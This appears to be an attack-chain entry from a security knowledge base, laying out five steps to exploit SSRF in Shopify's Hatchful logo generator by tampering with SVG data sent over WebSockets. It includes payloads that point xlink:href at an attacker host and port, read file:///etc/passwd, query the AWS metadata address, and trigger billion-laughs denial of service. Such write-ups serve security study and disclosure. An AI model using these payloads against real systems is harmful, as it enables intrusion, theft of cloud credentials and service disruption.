

---
tags:
  - ssrf
  - shopify
  - svg
  - websocket
  - image-processing
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Interact-with-Logo-Generator]]'
  - '[[procedures/Intercept-and-Modify-SVG-Data]]'
  - '[[procedures/Send-Modified-SVG-for-PNG-Conversion]]'
  - '[[procedures/Trigger-and-Observe-SSRF]]'
  - '[[procedures/Analyze-SSRF-Impact]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack chain exploiting SSRF in the logo generation feature of
  hatchful.shopify.com by injecting malicious xlink:href attributes into SVG
  data transmitted over WebSockets, enabling internal network scanning, file
  reads, and potential DoS.
skill_level: intermediate
impact_level: high
id: 4e93cda9-28a9-4f8b-8e6a-7fd8a628194d
created_at: '2025-12-14T03:46:09.120Z'
updated_at: '2025-12-14T03:46:09.120Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation in Shopify Hatchful Logo Generator via Malicious SVG over WebSockets

Multi-stage attack chain demonstrating a complete SSRF workflow in the hatchful.shopify.com logo generation feature, where client-sent SVG data is processed server-side without validation, allowing arbitrary URL fetches via xlink:href attributes.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]] (for intercepting WebSocket traffic)
- Browser with developer tools (e.g., Chrome DevTools for manual inspection)

### Target Environment

- Web platform
- Access to hatchful.shopify.com
- Required services/ports: WebSockets on standard ports (e.g., 443 for HTTPS)
- Network access requirements: Direct internet access to the target site; attacker-controlled server for receiving SSRF callbacks (e.g., port 12345)

### Initial Access Requirements

- No credentials required (public-facing application)
- Network position: External attacker
- Prior access needed: None, as it's a public web app

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Interact-with-Logo-Generator]]

**Objective**: Gain access to the logo creation interface and initiate the SVG data exchange over WebSockets.

**Instructions**: Open hatchful.shopify.com in a browser, select a logo template in the WYSIWYG editor, and enter a test email address to trigger data transmission. Monitor the WebSocket connection in browser developer tools to observe the initial SVG data sent from the server.

**Expected Output**: WebSocket messages containing escaped SVG files for the selected logo.

**Success Indicators**:
- WebSocket connection established
- SVG data visible in network tab

### Step 2: Execution
procedure: [[procedures/Intercept-and-Modify-SVG-Data]]

**Objective**: Capture the outgoing SVG data and inject malicious xlink:href attributes to point to arbitrary URLs.

**Instructions**: Use a proxy like Burp Suite to intercept WebSocket traffic. Locate the SVG payload in the request, and modify it by adding an <image> tag with xlink:href="http://attacker-ip:12345/payload" (replace with your controlled endpoint). For local file reads, use file:///etc/passwd; for DoS, embed a 'billion laughs' XML entity expansion payload.

**Expected Output**: Modified SVG data ready for transmission, with custom attributes inserted.

**Success Indicators**:
- Intercepted request modified without errors
- Malicious URL embedded in SVG

### Step 3: Privilege Escalation
procedure: [[procedures/Send-Modified-SVG-for-PNG-Conversion]]

**Objective**: Submit the tampered SVG to the server for PNG conversion, forcing the image processor to fetch the specified resources.

**Instructions**: Forward the modified request through the proxy to the server. The server will process the SVG using its image converter (likely a cloud function) and attempt to resolve the xlink:href URLs.

**Expected Output**: Server response with a generated PNG or error image if fetch fails.

**Success Indicators**:
- Request successfully forwarded
- Server acknowledges PNG generation

### Step 4: Objective
procedure: [[procedures/Trigger-and-Observe-SSRF]]

**Objective**: Confirm the SSRF by monitoring incoming connections from the server to the attacker's endpoint.

**Instructions**: On your controlled server (e.g., listening on port 12345), log incoming requests. The vulnerable image converter will connect to your IP:port when processing the SVG, revealing source IP and potentially exfiltrating data via response payloads.

**Expected Output**: Logs showing connections from Shopify's internal servers to your endpoint.

**Success Indicators**:
- Incoming SSRF request received
- Source IP from internal network

### Step 5: Analyze Impact
procedure: [[procedures/Analyze-SSRF-Impact]]

**Objective**: Evaluate the extent of compromise, including internal scans, file reads, or chained exploits.

**Instructions**: Review the generated PNG for embedded content (e.g., inserted GIFs) or errors. Test further payloads for local file inclusion (e.g., file:///path/to/metadata) or internal service abuse (e.g., http://169.254.169.254/latest/meta-data/ for AWS). Check for DoS by monitoring server response times with recursive entity payloads.

**Expected Output**: Evidence of file contents in responses or network scan results.

**Success Indicators**:
- Sensitive data exfiltrated
- Internal ports scanned successfully

## Attack Chain Summary

### Key Achievements

1. Successful SSRF triggering via unvalidated SVG processing
2. Internal network reconnaissance and potential metadata exfiltration
3. Demonstration of DoS and chained vulnerability exploitation (e.g., XXE in image libs)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01*
